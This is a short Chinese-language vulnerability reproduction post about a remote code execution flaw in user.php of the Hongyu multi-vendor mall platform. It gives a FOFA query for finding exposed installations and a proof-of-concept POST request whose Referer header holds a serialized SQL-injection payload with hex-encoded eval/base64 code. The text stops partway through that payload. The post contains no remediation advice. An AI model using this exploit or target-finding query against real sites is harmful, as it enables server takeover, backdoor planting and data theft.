

# 鸿宇多用户商城user.php RCE漏洞复现

### 0x01 产品简介

   鸿宇多用户商城是一款支持各行业的多商家入驻型电商平台系统,商家版APP,微信商城,小程序及各种主流营销模块应有尽有,是一个功能强大的电子商务平台，旨在为企业和个人提供全面的在线购物解决方案。

### 0x02 漏洞概述

  鸿宇多用户商城 user.php 存在任意命令执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 复现环境

FOFA：body="content=HongYuJD" && body="68ecshopcom\_360buy"



### 0x04 漏洞复现 

PoC

```cobol
POST /user.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:233:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b6576616c09286261736536345f6465636f64650928275a585a686243
```
